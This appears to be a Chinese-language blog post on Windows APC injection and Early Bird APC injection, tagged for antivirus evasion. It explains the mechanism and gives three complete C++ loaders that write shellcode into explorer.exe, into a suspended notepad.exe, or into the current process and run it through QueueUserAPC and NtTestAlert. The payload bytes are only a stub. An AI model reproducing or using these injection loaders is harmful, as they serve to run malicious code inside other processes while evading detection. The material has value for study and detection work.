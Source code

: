 ```yaml
---
layout: post
title: APC Inject
categories: Inject
description: Inject 之 APC
keywords: Windows，注入，免杀
---
```


APC注入技术

# APC Inject

## 原理

APC是一个简称，即“异步过程调用”。APC 注入的原理是利用当线程被唤醒时，APC 中的注册函数会被执行，并以此去执行 DLL 的加载代码，进而完成 DLL 注入的目的。在线程下一次被调度的时候，就会执行 APC 函数，APC 有两种形式，由系统产生的 APC 称为内核模式 APC，由应用程序产生的 APC 被称为用户模式 APC。

## 实现流程

1. 当某个线程执行到 Sleep 或 WaitForSingleObject 时，系统就会产生一个软中断。
2. 当线程再次被唤醒时，此线程会首先执行 APC 队列中的被注册的函数。
3. 利用 QueueUserAPC 可以在软中断时向线程的 APC 队列插入一个函数指针。

## 缺点

当用户模式 APC 队列时，除非线程处于可警报状态，否则不会定向线程调用 APC 函数。

线程处于可警报状态后，线程将按先进先出 （FIFO） 顺序处理所有挂起的 APC，等待操作将返回WAIT_IO_COMPLETION。

线程通过使用 SleepEx 函数、SignalObjectAndWait 函数、WaitForSingleObjectEx 函数、WaitForMultipleObjectsEx 函数或 MsgWaitForMultipleObjectsEx 函数进入可报警状态。

[QueueUserAPC function](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)

## 完整代码

### 1.OpenProcess 注入 explorer

```c++
#include "pch.h"
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>

int main()
{
	unsigned char shellcode[] =
			"\xfc\x48";

	HANDLE	hProcessHandle;
	HANDLE	hThreadHandle;
	HANDLE	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
	PROCESSENTRY32	processEntry	= { sizeof(PROCESSENTRY32) };
	THREADENTRY32	threadEntry		= { sizeof(THREADENTRY32) };
	std::vector<DWORD> vThreadIds;
	SIZE_T ShellcodeSize = sizeof(shellcode);
	
	// 查找 explorer.exe 进程 ID
	if (Process32First(hSnapshot, &processEntry)) {
		while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0) {
			Process32Next(hSnapshot, &processEntry);
		}
	}

	// 获取目标进程句柄
	hProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
	// 在 explorer.exe 进程内存空间中分配内存
	LPVOID shellAddress = VirtualAllocEx(hProcessHandle, NULL, ShellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(hProcessHandle, shellAddress, shellcode, ShellcodeSize, NULL);

	// 查找 explorer.exe 所有线程
	if (Thread32First(hSnapshot, &threadEntry)) {
		do {
			if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
				vThreadIds.push_back(threadEntry.th32ThreadID);
			}
		} while (Thread32Next(hSnapshot, &threadEntry));
	}

	for (DWORD dThreadId : vThreadIds) {
		// 根据线程 Tid，打开线程句柄
		hThreadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, dThreadId);
		// 给 APC 队列中插入回调函数
		// 在调用 QueueUserAPC 函数时指定此地址。PAPCFUNC 类型定义指向此回调函数的指针。
		QueueUserAPC((PAPCFUNC)apcRoutine, hThreadHandle, NULL);
		Sleep(1000 * 3);
	}

	return 0;
}
```

### 2.CreateProcess 注入 notepad

```
#include <Windows.h>
int main()
{
	unsigned char shellcode[] =
		"\xfc\x48";

	LPCSTR lpApplication = "C:\\Windows\\System32\\notepad.exe";
	SIZE_T ShellcodeSize = sizeof(shellcode);
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };
	// 以挂起状态创建 notepad.exe
	CreateProcessA(lpApplication, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
	HANDLE hProcess = pi.hProcess;
	HANDLE hThread = pi.hThread;

	// 在 notepad.exe 进程内存空间中分配内存
	LPVOID shellAddress = VirtualAllocEx(hProcess, NULL, ShellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE ptApcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(hProcess, shellAddress, shellcode, ShellcodeSize, NULL);

	// 给 APC 队列中插入回调函数
	// 在调用 QueueUserAPC 函数时指定此地址。PAPCFUNC 类型定义指向此回调函数的指针。
	QueueUserAPC((PAPCFUNC)ptApcRoutine, hThread, NULL);

	// 恢复线程
	ResumeThread(hThread);

	return 0;
}
```



# Early Bird APC Inject

## 原理

&[ensp](https://so.csdn.net/so/search?q=ensp&spm=1001.2101.3001.7020);&[ensp](https://so.csdn.net/so/search?q=ensp&spm=1001.2101.3001.7020);由于线程初始化时会调用 ntdll 未导出函数 NtTestAlert，NtTestAlert 是一个检查当前线程的 APC 队列的函数，如果有任何队列作业，它会清空队列。当线程启动时，NtTestAlert 会首先被调用。因此，如果在线程的开始状态下对 APC 进行操作，调用 NtTestAlert 函数就可以确保执行我们的 shellcode。

## 实现流程

1. 在当前进程中分配一块内存空间
2. 往申请的空间内写入 shellcode
3. 将 APC 插入到当前线程
4. 调用 NtTestAlert

```c++
#include <Windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

int main()
{
	unsigned char shellcode[] =
		"\xfc\x48";

	myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
	SIZE_T ShellcodeSize = sizeof(shellcode);
	// 分配内存
	LPVOID shellAddress = VirtualAlloc(NULL, ShellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(GetCurrentProcess(), shellAddress, shellcode, ShellcodeSize, NULL);

	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	// 给 APC 队列中插入回调函数
	QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
	// 调用 NtTestAlert 函数检查当前线程的 APC 队列，如果有任何队列作业，清空队列，执行 shellcode
	testAlert();

	return 0;
}
```

